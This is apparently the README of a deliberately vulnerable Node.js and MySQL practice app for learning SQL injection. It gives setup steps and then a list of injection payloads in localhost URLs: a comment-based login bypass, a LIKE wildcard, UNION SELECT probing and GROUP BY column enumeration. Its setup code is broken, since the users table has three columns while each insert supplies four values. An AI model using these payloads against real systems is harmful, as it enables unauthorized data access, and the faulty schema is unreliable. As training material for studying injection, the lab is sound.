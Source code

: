 # How to Start

You can download a free MySQL database at https://www.apachefriends.org/de/index.html

Start Apache and MySQL Server and go to the http://localhost/phpmyadmin/

create new db with the name "mydbTest" and run:
```
create table users
(
id INTEGER,
name TEXT,
mail TEXT
);

create table important
(
id INTEGER,
info TEXT
);
```
and
```
insert into users values (1,'admin', 'admin@mail.com', '1234567');
insert into users values (2,'user_1','user_1@mail.com', 'user_12345');
insert into users values (3,'user_2','user_2@mail.com', 'user_23456');
insert into users values (4,'user_3','user_3@mail.com', 'user_34567');

insert into important values (1,'very important information about admin');
insert into important values (2,'very important information about user_1');
insert into important values (3,'very important information about user_2');
insert into important values (4,'very important information about user_3');
```

After that run this commands:

`npm install`

than

`node index` or `nodemon`

go to 
<br>
http://localhost:3000/getUser/
<br>
http://localhost:3000/login/Admin&1234567

### What you should try

http://localhost:3000/getUser/1'--%20

http://localhost:3000/login/admin'--%20&1234567

http://localhost:3000/loginLike/Admin&%25

http://localhost:3000/getUserInfo/1'%20UNION%20SELECT%201,2,3%20--%20'

http://localhost:3000/getUserInfo/1'%20GROUP%20BY%205%20--%20'
http://localhost:3000/getUserInfo/1'%20GROUP%20BY%204%20--%20'
http://localhost:3000/getUserInfo/1'%20GROUP%20BY%203%20--%20'
